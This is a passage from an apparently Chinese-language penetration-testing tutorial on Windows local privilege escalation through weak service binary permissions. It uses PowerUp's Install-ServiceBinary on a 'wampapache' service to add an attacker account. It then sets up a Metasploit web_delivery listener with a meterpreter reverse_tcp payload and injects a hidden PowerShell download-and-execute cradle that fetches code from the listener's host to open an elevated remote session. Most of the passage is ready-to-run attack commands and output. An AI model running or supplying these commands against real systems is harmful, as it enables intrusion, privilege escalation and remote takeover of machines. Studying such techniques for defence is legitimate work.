可以看出，Powerup列出了可能存在问题的服务，并在AbuseFunction中给了接下来的利用方式。在上面两个利用点可以看出，`unquoted service paths`中给出了两个路径带空格的文件路径，但是因为其在c盘，没有权限，所以并不能被我们利用来提权。而第二个检查通过`Get-ServiceFilePermission`找到两个当前用户可以写入相关联可执行文件的路径，我们就可以通过这个来进行提权。在AbuseFunction那里已经给了我们操作方式，接下来我们执行如下操作：

```
PS E:\> Install-ServiceBinary -ServiceName 'wampapache' -UserName rockyou -Password 123

```

![Alt text](http://drops.javaweb.org/uploads/images/5bdeae90ea9b9636a5762bd82eec40274de238e3.jpg)

之后当管理员运行该服务的时候，则会添加我们的账号，运行前：

![Alt text](http://drops.javaweb.org/uploads/images/b45ba123fd83a1ece4389bf1c2a70eb6f16452f3.jpg)

运行服务以后：

![Alt text](http://drops.javaweb.org/uploads/images/75a0f1d2e96110d8578a66d3fb3a4e0bb16e50be.jpg)

查看该账号权限：

![Alt text](http://drops.javaweb.org/uploads/images/ced5d1d1f47bd9e4a89c6c7d5b247660aed5b90c.jpg)

当然，除了添加账号，我们同样可使用msf获得meterpreter会话。

使用`web_delivery`模块开启监听：

```
msf > use exploit/multi/script/web_delivery 
msf exploit(web_delivery) > set URIPATH /
URIPATH => /
msf exploit(web_delivery) > set lport 8888
lport => 8888
msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(web_delivery) > set SRVPORT 8080
SRVPORT => 8080
msf exploit(web_delivery) > set LHOST 192.168.74.1 
msf exploit(web_delivery) > exploit 

```

执行如下命令：

```
PS E:\> Install-ServiceBinary -ServiceName 'wampapache' -Command "powershell.exe -nop -w hidden -c `$m=new-object net.webclient;`$m.proxy=[Net.WebRequest]::GetSystemWebProxy();`$m.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX `$m.downloadstring('http://192.168.74.1:8080/');"

```

> 要注意`$`符号前面要加`来转义

当管理员运行此服务以后则获取高权限的meterpreter会话
